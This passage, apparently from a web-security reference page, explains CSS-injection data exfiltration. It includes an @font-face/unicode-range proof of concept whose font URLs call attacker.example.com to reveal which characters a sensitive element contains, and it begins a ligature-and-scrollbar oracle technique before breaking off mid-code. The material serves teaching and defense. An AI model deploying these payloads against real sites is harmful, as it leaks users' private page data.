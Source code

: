 You can check an [[https://gist.github.com/haqpl/52455c8ddfec33aeefb468301d70b6eb|**exploit using this technique for a CTF here**]].

### @font-face / unicode-range 

You can specify **external fonts for specific unicode values** that will only be **gathered if those unicode values are present** in the page. For example:

```html
<style>
  @font-face {
    font-family: poc;
    src: url(http://attacker.example.com/?A); /* fetched */
    unicode-range: U+0041;
  }
  @font-face {
    font-family: poc;
    src: url(http://attacker.example.com/?B); /* fetched too */
    unicode-range: U+0042;
  }
  @font-face {
    font-family: poc;
    src: url(http://attacker.example.com/?C); /* not fetched */
    unicode-range: U+0043;
  }
  #sensitive-information {
    font-family: poc;
  }
</style>

AB

htm
```
```
When you access this page, Chrome and Firefox fetch "?A" and "?B" because text node of sensitive-information contains "A" and "B" characters. But Chrome and Firefox do not fetch "?C" because it does not contain "C". This means that we have been able to read "A" and "B".

### Text node exfiltration (I): ligatures 

**Reference:** [[https://sekurak.pl/wykradanie-danych-w-swietnym-stylu-czyli-jak-wykorzystac-css-y-do-atakow-na-webaplikacje/|Wykradanie danych w świetnym stylu – czyli jak wykorzystać CSS-y do ataków na webaplikację]]

The technique described involves extracting text from a node by exploiting font ligatures and monitoring changes in width. The process involves several steps:

1. **Creation of Custom Fonts**:

   - SVG fonts are crafted with glyphs having a `horiz-adv-x` attribute, which sets a large width for a glyph representing a two-character sequence.
   - Example SVG glyph: `<glyph unicode="XY" horiz-adv-x="8000" d="M1 0z"/>`, where "XY" denotes a two-character sequence.
   - These fonts are then converted to woff format using fontforge.

2. **Detection of Width Changes**:

   - CSS is used to ensure that text does not wrap (`white-space: nowrap`) and to customize the scrollbar style.
   - The appearance of a horizontal scrollbar, styled distinctly, acts as an indicator (oracle) that a specific ligature, and hence a specific character sequence, is present in the text.
   - The CSS involved:
     ```css
     body {
```